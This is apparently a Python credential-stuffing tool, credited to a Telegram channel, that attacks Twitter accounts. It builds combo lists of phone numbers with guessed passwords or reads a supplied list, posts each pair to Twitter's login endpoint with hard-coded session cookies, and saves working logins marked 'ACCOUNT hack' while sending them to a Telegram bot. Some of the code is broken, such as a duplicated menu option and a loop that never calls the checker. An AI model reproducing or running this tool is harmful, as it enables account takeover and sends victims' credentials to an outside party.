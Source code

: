import requests
import random
import time
import os

os.system("rm -rf combo.txt")
try:os.remove("combo.txt")
except:pass
os.system('clear')

logo = """
\033[1;91m

\033[0;1m------------------------------------------------------
\033[32m BY @KtsOfficiall
 ➣ \033[32mTELEGRAM👍 \033[0;1m: \033[32m :https://t.me/KtsOfficiall
\033[0;1m------------------------------------------------------
"""
print(logo)
print('\n\033[0;1m{ 2 } = \033[32mCHECKER TWITTER  { COMBO }\n\033[0;1m{ 2 } = \033[32mCHECKER TWITTER { COMBO  }')
danial = input('\by @KtsOfficiall: ')


if danial=="1":
		os.system('clear')
		def combo():
			for lol in range(3000):
				tm=random.randint(1000000, 9999999)
				ss=("964770"+str(tm)+":0770"+str(tm))
				with open("combo.txt", "a") as bo:
					bo.write(str(ss)+"\n")
				yo=random.randint(1000000, 9999999)
				sos=("964771"+str(yo)+":0771"+str(yo))
				with open("combo.txt", "a") as bo:
					bo.write(str(sos)+"\n")
				nk=random.randint(1000000, 9999999)
				sks=("964750"+str(nk)+":0750"+str(nk))
				with open("combo.txt", "a") as bo:
					bo.write(str(sks)+"\n")
				kl=random.randint(1000000, 9999999)
				ssl=("964751"+str(kl)+":0751"+str(kl))
				with open("combo.txt", "a") as bo:
					bo.write(str(ssl)+"\n")
				uo=random.randint(1000000, 9999999)
				po=("964780"+str(uo)+":0780"+str(uo))
				with open("combo.txt", "a") as bo:
					bo.write(str(po)+"\n")
		combo()
		kondom="combo.txt"
		hi=open(kondom,"r").read().splitlines()
		for oo in hi:
			user=oo.split(':')[0]
			pess=oo.split(':')[1]
def CHECK(user,pess):
	head={
		'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
		'Accept-Encoding': 'gzip, deflate, br',
		'Accept-Language': 'ar,en-US;q=0.7,en;q=0.3',
		'Content-Length': '901',
		'Content-Type': 'application/x-www-form-urlencoded',
		'Cookie': 'personalization_id="v1_aFGvGiam7jnp1ks4ml5SUg=="; guest_id=v1%3A161776685629025416; gt=1379640315083112449; ct0=de4b75112a3f496676a1b2eb0c95ef65; _twitter_sess=BAh7CSIKZmxhc2hJQzonQWN0aW9uQ29udHJvbGxlcjo6Rmxhc2g6OkZsYXNo%250ASGFzaHsABjoKQHVzZWR7ADoPY3JlYXRlZF9hdGwrCIA8a6p4AToMY3NyZl9p%250AZCIlM2RlMDA1MzYyNmJiMGQwYzQ1OGU2MjFhODY5ZGU5N2Y6B2lkIiU4ODM0%250AMjM5OTNlYjg0ZGExNzRiYTEwMWE0M2ZhYTM0Mw%253D%253D--f5b0bce9df3870f1a221ae914e684fbdc533d03d; external_referer=padhuUp37zjgzgv1mFWxJ12Ozwit7owX|0|8e8t2xd8A2w%3D; _mb_tk=10908ac0975311eb868c135992f7d397',
		'Host': 'twitter.com',
		'Origin': 'https://twitter.com',
		'Referer': 'https://twitter.com/login?lang=ar',
		'TE': 'Trailers',
		'Upgrade-Insecure-Requests': '1',
		'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:87.0) Gecko/20100101 Firefox/87.0', }
	data={
		'redirect_after_login': '/',
		'remember_me': '1',
		'authenticity_token': '10908ac0975311eb868c135992f7d397',
		'wfa': '1',
		'ui_metrics': '{\"rf\":{\"ab4c9cdc2d5d097a5b2ccee53072aff6d2b5b13f71cef1a233ff378523d85df3\":1,\"a51091a0c1e2864360d289e822acd0aa011b3c4cabba8a9bb010341e5f31c2d2\":84,\"a8d0bb821f997487272cd2b3121307ff1e2e13576a153c3ba61aab86c3064650\":-1,\"aecae417e3f9939c1163cbe2bde001c0484c0aa326b8aa3d2143e3a5038a00f9\":84},\"s\":\"MwhiG0C4XblDIuWnq4rc5-Ua8dvIM0Z5pOdEjuEZhWsl90uNoC_UbskKKH7nds_Qdv8yCm9Np0hTMJEaLH8ngeOQc5G9TA0q__LH7_UyHq8ZpV2ZyoY7FLtB-1-Vcv6gKo40yLb4XslpzJwMsnkzFlB8YYFRhf6crKeuqMC-86h3xytWcTuX9Hvk7f5xBWleKfUBkUTzQTwfq4PFpzm2CCyVNWfs-dmsED7ofFV6fRZjsYoqYbvPn7XhWO1Ixf11Xn5njCWtMZOoOExZNkU-9CGJjW_ywDxzs6Q-VZdXGqqS7cjOzD5TdDhAbzCWScfhqXpFQKmWnxbdNEgQ871dhAAAAXiqazyE\"}',
		'session[username_or_email]': user,
		'session[password]': pess}
	try:
		time.sleep(0.5)
		req=requests.post(f'https://twitter.com/sessions',headers=head,data=data)
		if ("ct0") in req.cookies:
			os.system('clear')
			print(logo)
			print(f'\033[0;1m[\033[32m+\033[0;1m] \033[32mGOOD: {user}:{pess} ')
			u=f"""
ACCOUNT hack bw 
EMAIL: {user}
PASS: {pess}
CH: @KtsOfficiall
"""
			try:
				requests.post(f'https://api.telegram.org/bot{token}/sendMessage?chat_id={ID}&text={u}')
			except:
				pass
			with open('GOOD.txt', 'a') as x:
				x.write(f'{user}:{pess}'+'\n')
		else:
			os.system('clear')
			print(logo)
			print(f'\033[0;1m[\033[1;91m-\033[0;1m] \033[1;91mBAD: {user}:{pess}')
	except requests.exceptions.ConnectionError:
		print("[-] !!")
	except KeyboardInterrupt:
		exit(0)

#----------------------------------------

if danial=="2":
	os.system('clear')
print(logo)
ID=input('ID TELEGRAM: ')
os.system('clear')
print(logo)
token=input('TOKEN BOT: ')
os.system('clear')
def CHECK(user,pess):
	head={
		'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
		'Accept-Encoding': 'gzip, deflate, br',
		'Accept-Language': 'ar,en-US;q=0.7,en;q=0.3',
		'Content-Length': '901',
		'Content-Type': 'application/x-www-form-urlencoded',
		'Cookie': 'personalization_id="v1_aFGvGiam7jnp1ks4ml5SUg=="; guest_id=v1%3A161776685629025416; gt=1379640315083112449; ct0=de4b75112a3f496676a1b2eb0c95ef65; _twitter_sess=BAh7CSIKZmxhc2hJQzonQWN0aW9uQ29udHJvbGxlcjo6Rmxhc2g6OkZsYXNo%250ASGFzaHsABjoKQHVzZWR7ADoPY3JlYXRlZF9hdGwrCIA8a6p4AToMY3NyZl9p%250AZCIlM2RlMDA1MzYyNmJiMGQwYzQ1OGU2MjFhODY5ZGU5N2Y6B2lkIiU4ODM0%250AMjM5OTNlYjg0ZGExNzRiYTEwMWE0M2ZhYTM0Mw%253D%253D--f5b0bce9df3870f1a221ae914e684fbdc533d03d; external_referer=padhuUp37zjgzgv1mFWxJ12Ozwit7owX|0|8e8t2xd8A2w%3D; _mb_tk=10908ac0975311eb868c135992f7d397',
		'Host': 'twitter.com',
		'Origin': 'https://twitter.com',
		'Referer': 'https://twitter.com/login?lang=ar',
		'TE': 'Trailers',
		'Upgrade-Insecure-Requests': '1',
		'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:87.0) Gecko/20100101 Firefox/87.0', }
	data={
		'redirect_after_login': '/',
		'remember_me': '1',
		'authenticity_token': '10908ac0975311eb868c135992f7d397',
		'wfa': '1',
		'ui_metrics': '{\"rf\":{\"ab4c9cdc2d5d097a5b2ccee53072aff6d2b5b13f71cef1a233ff378523d85df3\":1,\"a51091a0c1e2864360d289e822acd0aa011b3c4cabba8a9bb010341e5f31c2d2\":84,\"a8d0bb821f997487272cd2b3121307ff1e2e13576a153c3ba61aab86c3064650\":-1,\"aecae417e3f9939c1163cbe2bde001c0484c0aa326b8aa3d2143e3a5038a00f9\":84},\"s\":\"MwhiG0C4XblDIuWnq4rc5-Ua8dvIM0Z5pOdEjuEZhWsl90uNoC_UbskKKH7nds_Qdv8yCm9Np0hTMJEaLH8ngeOQc5G9TA0q__LH7_UyHq8ZpV2ZyoY7FLtB-1-Vcv6gKo40yLb4XslpzJwMsnkzFlB8YYFRhf6crKeuqMC-86h3xytWcTuX9Hvk7f5xBWleKfUBkUTzQTwfq4PFpzm2CCyVNWfs-dmsED7ofFV6fRZjsYoqYbvPn7XhWO1Ixf11Xn5njCWtMZOoOExZNkU-9CGJjW_ywDxzs6Q-VZdXGqqS7cjOzD5TdDhAbzCWScfhqXpFQKmWnxbdNEgQ871dhAAAAXiqazyE\"}',
		'session[username_or_email]': user,
		'session[password]': pess}
	try:
		time.sleep(0.5)
		req=requests.post(f'https://twitter.com/sessions',headers=head,data=data)
		if ("ct0") in req.cookies:
			os.system('clear')
			print(logo)
			print(f'\033[0;1m[\033[32m+\033[0;1m] \033[32mGOOD: {user}:{pess} ')
			u=f"""
ACCOUNT hack bw
EMAIL: {user}
PASS: {pess}
CH: @KtsOfficiall
"""
			try:
				requests.post(f'https://api.telegram.org/bot{token}/sendMessage?chat_id={ID}&text={u}')
			except:
				pass
			with open('GOOD.txt', 'a') as x:
				x.write(f'{user}:{pess}'+'\n')
		else:
			os.system('clear')
			print(logo)
			print(f'\033[0;1m[\033[1;91m-\033[0;1m] \033[1;91mBAD: {user}:{pess}')
	except requests.exceptions.ConnectionError:
		print("[-] !!")
	except KeyboardInterrupt:
		exit(0)
def FILname():
	print(logo)
	F=input('/COMBO FILE: ')
	try:
		for x in open(F,'r').read().splitlines():
			user=x.split(":")[0]
			pess=x.split(":")[1]
			CHECK(user,pess)
	except FileNotFoundError:
		print('\nCOMBO GHALATA YAN PATH!\n')
		return FILname()
FILname()
